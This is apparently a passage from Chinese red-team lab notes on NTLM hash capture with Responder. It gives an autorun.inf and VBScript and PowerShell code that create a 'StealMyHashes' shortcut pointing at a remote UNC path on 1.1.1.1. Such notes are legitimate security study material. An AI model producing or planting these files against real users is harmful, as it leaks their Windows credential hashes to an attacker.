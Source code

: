 打开 word 时,触发 NTLM 请求

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/Responder欺骗/18.png)

**Autorun.inf**
```
[autorun]
open=\\1.1.1.1\setup.exe
icon=something.ico
action=open Setup.exe
```

**Shortcut Files (.lnk)**

我们可以创建一个包含网络路径的快捷方式，只要你打开快捷方式，Windows就会尝试解析网络路径，你还可以指定一个快捷键来触发这个快捷方式。至于图标，你可以给出一个Windows二进制文件的名称，或者从位于system32目录中的shell32.dll，Ieframe.dll，imageres.dll，pnidui.dll或wmploc.dll中选择一个图标。
```
Set shl = CreateObject(&quot;WScript.Shell&quot;)
Set fso = CreateObject(&quot;Scripting.FileSystemObject&quot;)
currentFolder = shl.CurrentDirectory

Set sc = shl.CreateShortcut(fso.BuildPath(currentFolder, &quot;\StealMyHashes.lnk&quot;))

sc.TargetPath = &quot;\\1.1.1.1\@OsandaMalith&quot;
sc.WindowStyle = 1
sc.HotKey = &quot;Ctrl+Alt+O&quot;
sc.IconLocation = &quot;%windir%\system32\shell32.dll, 3&quot;
sc.Description = &quot;I will Steal your Hashes&quot;
sc.Save
```

Powershell
```
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("StealMyHashes.lnk")
$lnk.TargetPath = "\\1.1.1.1\@OsandaMalith"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "I will Steal your Hashes"
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

